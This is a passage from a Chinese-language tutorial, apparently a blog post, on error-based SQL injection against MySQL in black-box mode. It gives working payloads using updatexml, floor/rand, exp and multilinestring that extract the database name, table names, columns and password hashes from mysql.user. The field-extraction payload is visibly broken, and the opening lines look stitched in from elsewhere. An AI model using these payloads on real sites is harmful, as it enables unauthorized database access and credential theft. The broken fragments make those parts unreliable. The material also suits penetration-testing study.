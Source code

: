 > select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
> 10.exp()
> select * from test where id=1 and exp(~(select * from(select user())a));
> ```
>
> 





### 在黑盒模式下进行报错注入

​	流程还是根之前一样 库名-》表名-》字段-》字段内容

#### 获取库名	

```mysql
1' and (updatexml(1,(select concat('`',(select database()),'`')),1))-- 
```

#### 获取表名 这次用floor报错，floor报错不会出现长度问题

```mysql
1' and (select 1 from (select count(*),concat((select (select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema=database() limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2)) as x from information_schema.tables group by x)a)-- 
```

获取表名为 guestbook 将limit 0,1 改成 1，1是获取第二个表users

#### 获取字段

获取users第一个字段

```mysql
1' and (select 1 from(select count(*),,))
```





 获取账号密码

获取账号和密码需要root权限

```mysql
select authentication_string from mysql.user limit 1;
select(updatexml(1,concat(0x7e,(select (select authentication_string from mysql.user limit 1 )),0x7e),1))
select(updatexml(1,concat(0x7e,(select (substring((select authentication_string from mysql.user limit 1),32,40))),0x7e),1))
```


![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232408409-1564081412.jpg)
